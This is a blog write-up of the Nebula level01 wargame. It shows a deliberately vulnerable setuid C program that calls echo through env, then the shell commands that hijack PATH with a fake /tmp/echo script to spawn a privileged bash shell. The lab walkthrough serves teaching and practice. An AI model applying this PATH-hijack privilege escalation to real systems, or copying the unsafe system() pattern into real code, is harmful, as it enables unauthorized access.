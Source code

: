```yaml
---
layout: post
title: "Exploit Exercises - Nebula 01"
date: 2011-12-02T06:18:00-05:00
comments: true
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
---
```


Continuing from my previous post, I started tinkering with the next Nebula wargame: [Nebula 01](http://exploit-exercises.com/nebula/level01). This one gives you some C code, which has a bug in it. You have to exploit that bug.

<!-- more -->

```
#include <stdlib.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
 gid_t gid;
 uid_t uid;
 gid = getegid();
 uid = geteuid();

 setresgid(gid, gid, gid);
 setresuid(uid, uid, uid);

 system("/usr/bin/env echo and now what?");
}
```

If you read through the code, you may notice that it's calling "echo" with some text appended, to echo it to the screen. How it's being called, it is loading the path to "echo" from the environment settings. It'll read what's in the path. To exploit this, all we have to do is modify the path.

```
level01@nebula:/home/flag01$ PATH=/tmp:$PATH
level01@nebula:/home/flag01$ export PATH
level01@nebula:/home/flag01$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Now, if "echo" is called, it'll look in /tmp first. So let's start tinkering. My first thought was to just make a symbolic link to /bin/bash, to get me a shell.

```
level01@nebula:/home/flag01$ ln -s /bin/bash /tmp/echo
level01@nebula:/home/flag01$ ./flag01
echo: and: No such file or directory
```

However, that didn't work, because it was essentially calling bash with the parameters of "and now what?". To get around that, I figured I'd wrap it in a bash script, which just ignored any parameters. I deleted the /tmp/echo file I created, and tried over.

```
level01@nebula:/home/flag01$ rm /tmp/echo
level01@nebula:/home/flag01$ ln -s /bin/bash /tmp/echo2
level01@nebula:/home/flag01$ echo -e '#!/bin/bash\n/tmp/echo2' > /tmp/echo;chmod +x /tmp/echo
level01@nebula:/home/flag01$ ./flag01
flag01@nebula:/home/flag01$ getflag
You have successfully executed getflag on a target account
```

This time it was successful, so I again, ran "getflag".  Now I have another level complete.
